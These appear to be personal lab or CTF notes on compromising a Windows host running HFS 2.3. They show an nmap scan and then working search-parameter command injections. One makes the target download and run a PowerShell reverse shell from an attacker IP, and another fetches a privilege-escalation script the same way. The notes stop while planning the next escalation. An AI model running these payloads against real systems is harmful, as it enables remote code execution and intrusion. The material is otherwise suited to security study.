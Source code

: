 $ nmap -sC -sV 10.10.10.8         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 12:38 EST
Nmap scan report for 10.10.10.8
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


default rejetto scipts dont work

`http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}`

[](./rev.ps1)

http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.19:8000/rev.ps1').}

![](20230217135239.png)  

got a connect back

privilege escalations

IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/ms16-32.ps1')

but ms 16 32 didnot wokr

need to donwload sherlock first

